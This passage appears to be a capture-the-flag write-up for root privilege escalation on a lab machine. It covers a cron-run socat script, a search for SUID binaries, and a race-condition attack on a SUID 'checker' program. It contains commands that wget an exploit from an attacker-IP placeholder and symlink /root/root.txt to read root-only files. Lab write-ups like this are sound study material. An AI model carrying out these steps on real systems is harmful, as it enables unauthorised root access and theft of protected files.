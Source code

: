```
baabc5e4ed55bcc176a2ed5d49b4befb
```

## Privesc to `root`
Run `linpeas` again!  
![](img/cron2.png)  
This is a more interesting cronjob! It runs `~/socat.sh` every minute (I think)

**~/socat.sh**:
```
#!/usr/bin/env bash
while true; do socat TCP-LISTEN:1337,reuseaddr,fork,bind=127.0.0.1 EXEC:"/usr/bin/python /home/smasher/crackme.py" 2>&1 > /dev/null; done
```

But the big problem is that we do not have permission to write into these files :(  

Search for more weird stuff!  
Check for suid bins inside a bin dir on the system!
```
find / -perm /6000 2>/dev/null | grep 'bin'
```
There a weird suid binary `/usr/bin/checker`  
Try to run it! It needs a file to check so create one with some random string in it!  
![](img/checker1.png)  

If u run the binary u can feel there is a ~**second delay** so maybe we can trigger a **race condition**!  

### Racing
[liveoverflow's vid about race conditions](https://www.youtube.com/watch?v=5g137gsB9Wk)  
[my racing source](expl/racing.c)  

Compile it, send it to the box and run it!
```
mkdir /tmp/.ayy
cd /tmp/.ayy
wget <attacker-ip>/racing
ln -s /root/root.txt /tmp/.ayy/flag
touch dummy
```
Now, u can do an `ls -lah` and u must see these:  
![](img/tmpdir.png)